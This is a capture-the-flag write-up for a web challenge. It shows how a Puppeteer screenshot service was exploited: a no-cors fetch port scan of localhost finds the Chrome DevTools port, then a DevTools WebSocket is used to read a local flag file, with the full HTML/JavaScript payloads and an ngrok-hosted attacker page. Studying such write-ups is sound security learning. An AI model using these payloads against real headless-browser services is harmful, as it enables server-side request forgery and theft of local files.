 # Watered Down Watermark as a Service

**Category**: Web \
**Points**: 240 (15 solves) \
**Author**: lamchcl

## Challenge

We took Watermark as a Service and [watered it down](wdwaas.zip). Hopefully you can still [get the flag](https://wdwaas.2021.chall.actf.co/)!

## Overview

We are presented with a beautiful animated site:

![s](s.png)

Give it something like https://www.google.com and it returns a screenshot with
a subtle watermark:

<img src="x.png" width="400" height="300">

How does it do this? Using [Puppeteer](https://pptr.dev/), a headless browser:

```javascript
function checkURL(url) {
    const urlobj = new URL(url)
    if(!urlobj.protocol || !['http:','https:'].some(x=>urlobj.protocol.includes(x)) || urlobj.hostname.includes("actf.co")) return false
    return true
}

const browser = puppeteer.launch({
    args: ['--no-sandbox', '--disable-setuid-sandbox']
})

async function visit (url) {
	if (!checkURL(url)) return 'no!!!!'
	let ctx = await (await browser).createIncognitoBrowserContext()
	let page = await ctx.newPage()
	page.on('framenavigated',function(frame){
		if (!checkURL(frame.url())) return 'no!!!!'
	})
	await page.setCookie(thecookie)
	await page.goto(url)
	const imageBuffer = await page.screenshot();
	const outputBuffer = await sharp(imageBuffer)
		.composite([{ input: "dicectf.png", gravity: "southwest" }]) // this was definitely not taken from dicectf trust me
		.toBuffer()
	await page.close()
	await ctx.close()
	return outputBuffer;
}
```

## Solution

Video: [s.mp4](s.mp4)

The code mentions a challenge from Dice CTF:
[Watermark as a Service](https://github.com/tlyrs7314/ctf-writeups/tree/main/DiceCTF2021/Watermark-as-a-Service)
(245 points, 20 solves).

The intended solution for that one was to use Google Cloud API to grab the
docker challenge container. Luckily I remembered seeing an unintended solution
posted in the Dice CTF discord:

![r](r.png)

Exploit:
1. Find the Chrome DevTools debug port
2. Open a new tab to `file:///app/flag.txt` using the `/json/new` DevTools endpoint
3. Read the flag by connecting to said tab's Web Socket

The method sodaLee used to find the debug port was to use a bunch of `<iframe>`
tags. That won't work here because of this:
```javascript
    // ...
    page.on('framenavigated',function(frame){
        if (!checkURL(frame.url())) return 'no!!!!'
    })
```

If an `<iframe>` fails, it goes to `chrome://network-error/` which `checkURL()`
doesn't like. One way to bypass this is to use `fetch` with `no-cors`:
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width" />
        <title>Get port</title>
    </head>
    <body>
        <pre id="urls">Hi</pre>
        <script>
            for (let port = 35000; port < 45000; port++) {
                const url = `http://127.0.0.1:${port}`
                fetch(url, {mode: 'no-cors'}).then(res => {
                    urls.textContent += `\n${url}`
                })
            }
        </script>

        <!-- Delay page load to keep script running -->
        <link rel="stylesheet" href="http://difajosdifjwioenriqoewrowifjaoijdaf.com">
    </body>
</html>
```

After starting an `ngrok` server, I sent my HTML page to be rendered. After
tweaking the port ranges a few times, I got:

<img src="p.png" width="400" height="300">

Then I sent http://127.0.0.1:40027/json/new?file:///app/flag.txt to the server, giving me:

<img src="id.png" width="400" height="300">

To extract the ID from the image, I used Tesseract OCR:
```sh
$ tesseract id.png stdout -c tessedit_char_whitelist=0123456789ABCDEF
...
C7F7841F482A9778859C24D8C768FCDE
...
```

Had to fix a few errors manually:
```diff
- C7F7841F482A9778859C24D8C768FCDE
+ C7F7841F4A2A0778859C24D8C768FCDE
```

Then I put the ID into `get_flag.html`:
```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width" />
        <title>Get flag</title>
    </head>
    <body>
        <script>
            const id = 'C7F7841F4A2A0778859C24D8C768FCDE'
            window.ws = new WebSocket(`ws://127.0.0.1:40027/devtools/page/${id}`)
            ws.onerror = (e => {document.writeln('error')})
            ws.onmessage = (e => { document.writeln("<pre>" + e.data + "</pre>"); })
            ws.onopen = () => {
                ws.send(JSON.stringify({
                    id: 1,
                    method: 'Runtime.evaluate',
                    params: { expression: 'document.body.innerHTML' }
                }))
            }
        </script>
    </body>
</html>
```

Then I sent http://xxxxxxxxxxxx.ngrok.io/get_flag.html to be rendered, which
give me the flag:

<img src="f.png" width="400" height="300">

Cool challenge!
